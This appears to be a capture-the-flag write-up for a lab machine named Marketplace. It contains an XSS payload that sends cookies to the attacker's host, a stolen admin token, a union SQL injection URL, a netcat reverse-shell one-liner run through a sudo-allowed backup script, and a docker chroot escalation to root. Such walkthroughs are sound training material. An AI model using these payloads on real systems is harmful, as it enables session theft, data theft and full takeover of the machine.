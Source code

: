 # Marketplace
# Mayank Srivastava | 15 dec 2020
--------------------------------------------------

## Nmap Scan

``` # Nmap 7.91 scan initiated Tue Dec 15 16:06:17 2020 as: nmap -sC -sV -oN nmap/initial 10.10.44.16
 Nmap scan report for 10.10.44.16
Host is up (0.62s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.19.2
|_http-title: The Marketplace
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 15 16:07:40 2020 -- 1 IP address (1 host up) scanned in 82.97 seconds
```

Found xss vulnerability in both of text box

## running python3 simple http server

``` <script>var i=new Image; i.src="http://10.4.10.4:8000/?"+document.cookie;</script>```

admin token = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDgwMjk3ODN9.vJ9-d2NiJld0S3a5Am7DNkxYuD-ubW_QWg0v1lX5t6g


## Sql Injection

looks like admin panel have sql vulnerability for cross check put" ' " at the end of the url

now we can inject some sql code to access the database also we can try union based sqli attack to read content from the database

/admin?user=0 union select 1,group_concat(message_content,'\n'),3,4 from marketplace.messages-- -

## Enumeration

and found the username and the ssh password

we are on the box

sudo -l 

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh

we can abuse tar to gain access on the machine

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.10.4 9001 >/tmp/f" > shell.sh

chmod 777 /opt/backups/backup.tar

nc -nlvp 9001

get connection as michael but user michael is in docker env
we can also exploit docker env using alpine

docker image ls

docker run -v /:/mnt --rm -it alpine chroot /mnt sh

after running this docker alpine we have a root shell 
